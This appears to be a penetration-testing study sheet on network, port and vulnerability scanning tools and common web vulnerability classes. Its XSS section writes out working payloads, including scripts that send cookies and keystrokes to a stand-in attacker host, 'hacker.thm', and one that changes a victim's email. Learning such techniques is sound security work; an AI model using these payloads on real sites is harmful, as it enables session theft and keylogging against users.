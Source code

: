 Goal:
- Scanning and enumerating target to find possible vulnerability and access point!

Scanning Methods:
- Network Scanning
- Port Scanning
- Vulnerability Scanning

Network Scanning Tools
- [ping]: ICMP Scanning <ping 192.168.0.1>
- [fping]: Live Hosts <fping -g -r 1 192.168.0.0/24>
- [nmap]: Network Scan <nmap -sn 192.168.100.0/24>
- [hping3]: Packet generator
- [arp-scan]
- [masscan]
- [Wireshark]: Network Sniffing and Packet Analysis
- [Zeek]: Network Monitoring
- [Snort]: Intrusion Detection and Prevention
- [NetworkMiner]: Network Forensics
- [Brim]:Threat Hunting


Port Scanning Tools
- [nmap]

Vulnerability Scanning Tools and Public Repositories
- [Nessus]
- [Nexpose]
- [OpenVAS]
- [Nikto]
- [searchsploit]
- [ExploitDB] <https://www.exploit-db.com>
- [NVD] <https://nvd.nist.gov/vuln/search>
- [Mitre] <https://www.cve.org>
- [OVAL] <https://oval.cisecurity.org/repository>
- [rapid7] <https://www.rapid7.com/db/>
- [favicon] <https://wiki.owasp.org/index.php/OWASP_favicon_database>


Web Applicatin Vulnerability:
- [IDOR]: Insecure Direct Object Reference
    - plain
    - base64 <https://www.base64decode.org/>
    - hash <https://crackstation.net/>
    - Unpredictable
- [FI]: File inclusion
    - Local File Inclusion
    - Remote File Inclusion
- [PT]: Path Traversal
- [SSRF]: Server-Side Request Forgery
    - regular SSRF
    - Blind SSRF
- [XSS]: Cross-site Scripting
    - Proof Of Concept <script>alert('XSS');</script>
    - Session Stealing <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    - Key Logger <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
    - Business Logic <script>user.changeEmail('attacker@hacker.thm');</script>
- [RCE]: Remote Code Execution
- [SQLi]: SQL Injection
